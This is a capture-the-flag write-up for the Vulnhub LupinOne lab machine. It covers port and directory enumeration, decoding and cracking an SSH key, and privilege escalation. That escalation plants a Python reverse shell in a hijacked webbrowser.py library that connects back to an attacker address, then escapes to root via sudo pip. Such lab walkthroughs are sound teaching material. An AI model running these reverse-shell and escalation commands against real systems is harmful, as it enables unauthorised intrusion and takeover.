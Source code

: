 ```yaml
---
title: Vulnhub - Empire LupinOne Writeup
date: 2022-02-10 10:00:00 +0530
categories: [Vulnhub]
tags: [vulnhub, john, ffuf, medium, privlege-escalation]
---
```

## Intro  

[LupinOne](https://www.vulnhub.com/entry/empire-lupinone,750/) is a medium box freely available on [vulnhub](https://www.vulnhub.com/) website. The author of the box describes it as a CTF styled box and mentions it requires as much enumeration as possible. And as usual, we can expect two flags:
* User flag
* Root flag  

So let's start!

## Enumeration

To begin with, we will start a quick nmap scan to identify all the open ports and possibly all the services which are running on those open ports as well. I like to use the following tags and scan all the open ports on the machine. It might be time consuming but it is better to be thorough than missing something crucial. And moreover the box description asks us to enumerate as much as we can.  

```
nmap -sC -sV -p- --open -oN nmap_scan 10.0.2.8
```
Here is a quick description of all the tags used - 
* -sC: Instrcut nmap to use all the default scripts
* -sV: Help identifying the services running on the open ports
* -p: Specify which port range to scan. Adding '-' at the end will scan all the ports
* --open: Only show open ports
* -oN: Specify output file

![nmap_scan](/assets/lupinone/nmap.png)

In the above scan we can see that there are two different ports open - 
1. 22: Running regular SSH service
2. 80: Running an apache web server

And we can also see that there is a disallowed entry in the robots.txt file:
* ~myfile

First let's check out the website on port 80 and then we will move on to the disallowed directory.  
![lupin_web](/assets/lupinone/lupin_web.png)

The website has nothing out of the ordinary, just an image. It's time to check out the myfiles directory.  
![myfiles](/assets/lupinone/error_404.png)

And we are greeted with an error 404 message.
This is probably the most confusing and time consuming part I dealt with in this box. So '~' symbol was used to denote the home directory of the user. And following similar patterns we can look for other directories as well. We'll use ffuf for the fuzzing part this time around.  
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.0.2.8/~FUZZ  -fc 403
```
Here is a quick description of all the tags used - 
* -w: Allows us to supply our custom wordlist
* -fc: Removes the directory with error code 403  

And quickly enough, we found a secret directory.  
![ffuf_1](/assets/lupinone/ffuf_1.png)

Now visiting this page we are greeted with a friendly message.  
![secret](/assets/lupinone/secret.png)

Now, from this page we can deduce three things:
* There is a ssh key hidden somewhere
* We can crack the password to that private ssh key using fasttrack wordlist
* The username is icex64

Next, we have more directory enumeration on our plate. Usually hidden files start with a dot in Unix operating systems, so following the trends of the directory enumeration, we can try that in our enumeration process as well. And luckily enough it was how the secret file was hidden.
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.0.2.8/~secret/.FUZZ -e .php,.txt,.html -fc 403
```
![mysecret](/assets/lupinone/mysecret.png)

We seem to have stumbled upon another hit. Let's check the file out. 

![id_rsa_enc](/assets/lupinone/id_encrypt.png)

It seems to be the secret directory which the previous page was talking about but it seems to be in an encoded form. Since it's not the basic base64 encoding, we can use [dcode.fr](https://www.dcode.fr/cipher-identifier) to analyse the encoding algorithm.  

![dcode](/assets/lupinone/dcode.png)

It's base58 encoded. So let's head over to our trusty [cyberchef](https://gchq.github.io/CyberChef/) and get our decoded key.  

![cyberchef](/assets/lupinone/cyberchef.png)

## Initial Access

I saved the file as id_rsa. And before we could use it with SSH, we need to set appropriate permissions
```
chmod 600 id_rsa
```
Using ssh2john we can convert the private key to a format which can be easily processed by johntheripper.

```
ssh2john id_rsa > john_id
```
Next, the only thing left for us to do is to crack the passphrase using the fasttrack wordlist(earlier hinted on the secret page)

```
john john_id --wordlist=/usr/share/wordlists/fasttrack.txt
```
![john_pass](/assets/lupinone/john_pass.png)

And just like that we got the passphrase. Next up time to get the initial foothold on the system!
We will use the user icex which was previously hinted on the secret page and use the password which we obtained using John.  
```
ssh icex64@10.0.2.8 -i id_rsa
```
In the icex64 user's directory we can see the user flag.  

![user](/assets/lupinone/user.png)

## Privilege Escalation

"sudo -l" is probably one of the first commands I use whenever I get initial access to the system. What it does is, let us know what commands can our current user run as superuser(root) or some other user.  
```
sudo -l
```
![sudo_l](/assets/lupinone/sudo_l.png)

Running the above command we can see that our user can execute a python file called heist.py as arsene user and it is located in the user arsene's home directory.
Checking the contents of the file we can see that we are invoking the webbrowser library and performing an action.

![hesit](/assets/lupinone/heist.png)

Our current user can not tamper with the file in any way as we can see in the below screenshot.  

![file_perm](/assets/lupinone/file_perm.png)

Let's check out the webbrowser library then. Usually python libraries will be found in /usr/lib directory.  

```
ls -la /usr/lib/python3.9 | grep webbrowser
```
![webbrowser](/assets/lupinone/webbrowser.png)

And it seems that we found a way to switch to arsene user. We can easily modify the webbrowser.py file and gain a reverse shell from the system.  

![revshell](/assets/lupinone/rev_shell.png)

We can just add a very basic python reverse shell. I used the following code
```
import pty,socket;s=socket.socket();s.connect(("10.0.2.5",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")
```
Make sure your listener is running on your host system before executing the file!
```
nc -lvnp 9001
```
We can use the following command to run the heist.py file as the arsene user

```
sudo -u arsene python3.9 /home/arsene/heist.py
```
And we got a reverse shell back on our system

![arsene](/assets/lupinone/arsene.png)

I used the following commands to stablise the shell

```
python3.9 -c 'import pty;pty.spawn("/bin/bash")' # After this press CTRL+Z to background the process
stty raw -echo;fg;reset
```

And once again we will start by using sudo -l as the arsene user

![sudo_l_arsene](/assets/lupinone/sudo_l_arsene.png)

We can see that our user can run pip command as sudo. Knowing this, we are only a few steps away from reaching the root user. For this step we can use [gtfobins](https://gtfobins.github.io). It contains a list of linux binaries which we can use to bypass restrictions and use them in the privilege escalation phase. The following commands(source - [gtfobins](https://gtfobins.github.io)) will allow us to use pip and reach the root user.  

```
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```

![rooted](/assets/lupinone/rooted.png)

With this we have completed the LunpinOne box.